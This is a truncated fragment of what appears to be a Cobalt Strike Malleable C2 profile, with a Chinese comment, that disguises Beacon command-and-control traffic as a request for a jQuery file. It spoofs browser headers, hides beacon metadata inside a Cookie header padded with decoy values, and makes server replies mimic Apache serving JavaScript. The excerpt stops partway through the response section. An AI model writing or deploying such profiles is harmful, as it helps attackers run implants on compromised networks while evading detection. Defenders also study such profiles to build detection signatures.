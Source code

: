 ```bash
# 设置 Beacon 命令请求与响应
http-get {  

    set uri "/jquery-3.3.1.min.js";

    client {  

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Referer" "https://www.example.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata { 
            base64url;  
            prepend "SIDCC=";
            prepend "SEARCH_SAMESITE=CgQIxZcB;";  
            prepend "lQaRlebM9FunyP84_a05drda1X6FPXP26n5G7mWCRN2bN_Gu";
            append "AFvIBn9dV3DED_b9abMYP15oQHAYTY3TuRA5Dy8Etv42aCa9TOkpoR5MLV4MtgiDNguD_3uUfw%2F%2BFE6%2F%2FX8T4Q%3D%3D"; 
            header "Cookie";  
        }  
    }  

    server {  

        header "Server" "Apache";  
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        header "Content-Encoding" "gzip";  

        output {
            # 2nd Line
```